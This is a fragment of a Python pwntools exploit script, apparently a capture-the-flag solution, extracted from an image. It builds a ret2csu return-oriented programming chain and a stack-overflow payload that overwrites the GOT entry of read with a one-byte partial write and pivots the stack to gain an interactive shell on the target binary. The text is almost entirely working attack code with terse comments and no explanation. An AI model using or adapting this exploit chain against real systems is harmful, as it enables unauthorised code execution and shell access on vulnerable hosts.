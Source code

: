 ```python

buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall execve()
buf += p64(0xdeadbeef)

sleep(1)
r.sendline(buf)

#3 overflow
payload = b"A"*0x48

payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(elf.got.read)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)

payload += p64(0x401109) #pop rbp
payload += p64(rw_section)
payload += p64(leaveret) #pivot

sleep(1)
r.sendline(payload)

sleep(1)
r.send(b"\x8c")

#========= interactive ====================
r.interactive()

```
